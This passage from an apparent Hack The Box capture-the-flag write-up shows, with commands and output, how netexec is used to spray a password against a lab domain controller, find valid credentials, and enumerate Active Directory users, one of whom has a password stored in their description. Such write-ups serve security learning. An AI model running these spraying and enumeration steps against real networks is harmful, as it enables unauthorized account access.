 ```
```
Next we can spray the password with netexec against all usernames found in the previous step. 
```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ netexec smb $ip -u usernames.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' 
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```
We were able to find valid credentials `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8` with netexec. Those van be used to enumerate further on the target.
Now we should query the AD with valid credentials to see if we can find new information.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ netexec smb $ip -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users 
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.231.149  445    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.231.149  445    CICADA-DC        Administrator                 2024-08-26 20:08:03 2       Built-in account for administering the computer/domain 
SMB         10.129.231.149  445    CICADA-DC        Guest                         2024-08-28 17:26:56 2       Built-in account for guest access to the computer/domain 
SMB         10.129.231.149  445    CICADA-DC        krbtgt                        2024-03-14 11:14:10 2       Key Distribution Center Service Account 
SMB         10.129.231.149  445    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 2        
SMB         10.129.231.149  445    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 2        
SMB         10.129.231.149  445    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0        
SMB         10.129.231.149  445    CICADA-DC        david.orelious                2024-03-14 12:17:29 0       Just in case I forget my password is aRt$Lp#7t*VQ!3 
SMB         10.129.231.149  445    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 0        
SMB         10.129.231.149  445    CICADA-DC        [*] Enumerated 8 local users: CICADA

```
In the Description a password has been stored for an user.. Not sure why it would have the text `Just in case I forget my password is`. But this will give us a new password and potential new credentials to impersonate this user.
Let's try to see if the user can logon with this password.
